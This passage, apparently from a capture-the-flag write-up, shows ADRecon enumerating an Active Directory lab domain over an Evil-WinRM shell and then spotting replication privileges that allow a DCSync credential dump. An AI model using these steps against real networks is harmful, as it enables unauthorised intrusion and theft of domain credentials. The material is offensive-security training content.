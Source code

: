     [-] Forest
    [-] Trusts
    [-] Sites
    [-] Subnets
    [-] Default Password Policy
    [-] Fine Grained Password Policy - May need a Privileged Account
    [-] Domain Controllers
    [-] Users - May take some time
    [-] User SPNs
    [-] PasswordAttributes - Experimental
    [-] Groups - May take some time
    [-] Group Memberships - May take some time
    [-] OrganizationalUnits (OUs)
    [-] GPOs
    [-] gPLinks - Scope of Management (SOM)
    [-] DNS Zones and Records
    [-] Printers
    [-] Computers - May take some time
    [-] Computer SPNs
    [-] LAPS - Needs Privileged Account
    Warning: [*] LAPS is not implemented.
    [-] BitLocker Recovery Keys - Needs Privileged Account
    [-] ACLs - May take some time
    Warning: [*] SACLs - Currently, the module is only supported with LDAP.
    [-] GPOReport - May take some time
    [*] Total Execution Time (mins): 0.69
    [*] Output Directory: C:\Users\svc_loanmgr\Documents\ADRecon-Report-20200219154103
    Warning: [Get-ADRExcelComObj] Excel does not appear to be installed. Skipping generation of ADRecon-Report.xlsx. Use the -GenExcel parameter to generate the ADRecon-Report.xslx on a host with Microsoft Excel installed.
    *Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> download ADRecon-Report-20200219154103 /tmp/adrecon
    Info: Downloading ADRecon-Report-20200219154103 to /tmp/adrecon

    Info: Download successful!

We look at our user permissions and found that it has the AD privilege
[DS-Replication-Get-Changes](https://docs.microsoft.com/en-us/windows/win32/adschema/r-ds-replication-get-changes)
which allows to replicate changes from a given NC.

    :::text
    grep svc CSV-Files/*
    CSV-Files/AboutADRecon.csv:"Ran as user","svc_loanmgr"
    CSV-Files/DACLs.csv:"EGOTISTICAL-BANK","Domain","All","All","ReadProperty, GenericExecute","Allow","EGOTISTICALBANK\svc_loanmgr","Administrators","False","None","None","None","None","00000000-0000-0000-0000-000000000000","00000000-0000-0000-0000-000000000000","EGOTISTICALBANK\svc_loanmgr","S-1-5-32-544","DC=EGOTISTICAL-BANK,DC=LOCAL"
    CSV-Files/DACLs.csv:"EGOTISTICAL-BANK","Domain","DS-Replication-Get-Changes","All","ExtendedRight","Allow","EGOTISTICALBANK\svc_loanmgr","Administrators","False","ObjectAceTypePresent","None","None","None","1131f6aa-9c07-11d1-f79f-00c04fc2dcd2","00000000-0000-0000-0000-000000000000","EGOTISTICALBANK\svc_loanmgr","S-1-5-32-544","DC=EGOTISTICAL-BANK,DC=LOCAL"
    CSV-Files/DACLs.csv:"EGOTISTICAL-BANK","Domain","DS-Replication-Get-Changes-All","All","ExtendedRight","Allow","EGOTISTICALBANK\svc_loanmgr","Administrators","False","ObjectAceTypePresent","None","None","None","1131f6ad-9c07-11d1-f79f-00c04fc2dcd2","00000000-0000-0000-0000-000000000000","EGOTISTICALBANK\svc_loanmgr","S-1-5-32-544","DC=EGOTISTICAL-BANK,DC=LOCAL"
    CSV-Files/GroupMembers.csv:"Domain Users","svc_loanmgr","L Manager","user"
    CSV-Files/GroupMembers.csv:"Remote Management Users","svc_loanmgr","L Manager","user"
    CSV-Files/Users.csv:"svc_loanmgr","L Manager","True","False","False","True","False","False","True","False",,,,"False","False","0","25","False","False","False","False","False",,,,,,"513","S-1-5-21-2966785786-3096785034-1186376766-1108","","","","","","","","2/19/2020 3:39:15 PM","1/24/2020 3:48:31 PM",,,"","",,,,"66048","L","","Manager","","1/24/2020 3:48:31 PM","2/19/2020 3:39:15 PM","CN=L Manager,CN=Users,DC=EGOTISTICAL-BANK,DC=LOCAL","EGOTISTICAL-BANK.LOCAL/Users/

